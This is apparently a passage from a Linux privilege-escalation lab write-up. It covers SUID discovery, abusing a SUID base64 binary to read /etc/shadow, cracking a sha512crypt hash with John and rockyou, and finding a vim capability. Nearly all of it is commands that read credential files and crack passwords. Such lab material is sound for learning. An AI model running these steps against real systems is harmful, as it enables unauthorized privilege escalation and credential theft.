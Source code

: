 #### Get the hash

```bash
cat /etc/shadow | grep frank
```

____
# Privilege Escalation: `SUID`

#### Finding `SUID`

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

i found my target !!
![base64](../../files/photos/base64.png)

#### Let's read the shadow to get the hashes

```bash
base64 /etc/shadow | base64 -d 
```

and i found the desired hashes...

![hash](../../files/photos/hash.png)


#### Let's crack the hash of `user2`

```bash
echo '$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/' > hash; john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash
```
 ---
# Privilege Escalation: Capabilities

#### Find the Capabilities
```bash
getcap -r /
```
There is a capability for `VIM`....
